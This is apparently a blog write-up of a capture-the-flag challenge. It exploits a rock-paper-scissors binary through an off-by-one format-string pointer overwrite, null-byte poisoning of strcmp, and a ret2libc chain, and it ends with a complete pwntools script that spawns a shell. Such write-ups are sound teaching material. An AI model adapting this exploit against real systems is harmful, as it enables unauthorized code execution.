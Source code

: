 This weekend, there was a blue moon, so I figured I'd upload something to my blog again.

# Rock paper scissors
The program itself is straightforward. The user gets asked if they want to play rock, paper, scissors. The user can answer with y or n. If the user chooses to play, the program presents the user with 3 options: rock, paper or scissors. They can be selected through putting a number in for which option they'd like to choose. Next, the program will tell the user whether they lost or won, presumably based on a randomized guess from the computer and a simple logic check. Regardless, the user will be presented with the option to play again. This time, the user can fill in more than a character, namely "yes" or "no". If the user puts in "yes", the game starts again. If the user puts in anything else, the program exits.

## Preliminary analysis
I started by running checksec on the binary. RELRO and NX were enabled, but stack canaries and PIE were not. This lead me to think that the vulnerability was a stack overflow one. The binary also came with a libc file, so the stack overflow would probably have to be chained with a libc memory address leak, forming a ret2libc exploit.

## The vulnerability
Opening the binary in Ghidra, we can see that the function containing the game loop gets the selected option from the user through a call to scanf(), meaning that at this time, this call is not vulnerable to any buffer overflows, since the format string only accepts integers. Unfortunately, this is the only function call that stores its input on the stack. Later on, the game asks whether the user wants to play again or not. This is done through a call to read(), which takes 0x19 bytes and stores it in a global variable in the .data section, meaning that it can not cause a stack buffer overflow. We will call the variable playAgainAnswer. The read() call's destination might have other things it can override that might be interesting to the attacker, though.

The playAgainAnswer variable is located right before the pointer that points to the format string used in the scanf() call that gets the user's choice. The attacker can put in 0x19 bytes, which is just enough to overflow the least significant byte of the format string pointer. If there is a format string in memory that takes strings instead of integers, the pointer can be overwritten to use that instead. Right before the "%d" format string, there is in fact a "%s" string.

One issue with this vulnerability is that the game loop needs to be run again after corrupting the format string pointer, but the playAgainAnswer needs to be "yes\n" in order for that to happen, which is not the case if we feed it the overflow payload. The function that is used to compare the strings is strcmp(), which stops comparing when the null byte is hit on both strings. One trick to bypass this is through null-byte poisoning. This means that the payload starts with "yes\n", followed by a null byte, which is followed by the payload.

## Crafting the exploit
After sending the payload, the user will again be presented with the prompt to select an option, only this time it can send whatever data it wants. The attacker can now overflow the buffer on the stack and gain control of the instruction pointer. Since there is no code that can be used to get a shell in the binary itself, I needed to craft a ret2libc exploit.

The first step is leaking the base address of libc. I started by building a payload that executes the puts() function, with the GOT address of puts as its argument, followed by a call to main(), which will effectively start the program from the beginning, allowing us to perform a second buffer overflow that gets us the shell. The libc file provided by the challenge can be used to get the proper offsets of the symbols to calculate the base address and the addresses of "/bin/sh" and system(). This worked locally, but not remotely for some reason. This was because the stack was not 16-bytes alligned. This was solved with a simple call to ret before executing the shell payload.

```python
from pwn import *

elf = context.binary = ELF("rps")
libc = ELF("./libc-2.31.so")

gs = '''
break *0x401452
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def set_scanf_d_to_s(p):
    payload = b"yes\n\x00" + b"A"*0x13 + b"\x08"
    time.sleep(0.2)
    p.sendline(b"y")
    time.sleep(0.2)
    p.sendline(b"1")
    time.sleep(0.2)
    p.sendline(payload)


# rop gadgets
poprdi = p64(0x401513)
putsgot = p64(0x403f98)
putsplt = p64(0x401100)
ret = p64(0x40101a)

main_addr = p64(0x401453)

leak_base_payload = b"A"*0x14 + poprdi + putsgot + putsplt + main_addr

p = start()

set_scanf_d_to_s(p)

time.sleep(0.2)
p.sendline(leak_base_payload)

time.sleep(0.2)
p.recvuntil(b"Would you like to play again? [yes/no]: ")
p.sendline(b"no")

# get leaked puts address from output
leak = p.recvuntil(b"How")
leak_offset = leak.find(b"]:") + 3
address = leak[leak_offset:-4]
puts_address = int.from_bytes(address, byteorder='little')

libc.address = puts_address - libc.symbols["puts"]
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

shell_payload = b"A"*0x14 + ret + poprdi + p64(binsh) + p64(system)

set_scanf_d_to_s(p)

time.sleep(0.2)
p.sendline(shell_payload)

time.sleep(0.2)
p.recvuntil(b"Would you like to play again? [yes/no]: ")
p.sendline(b"no")

p.interactive()
```

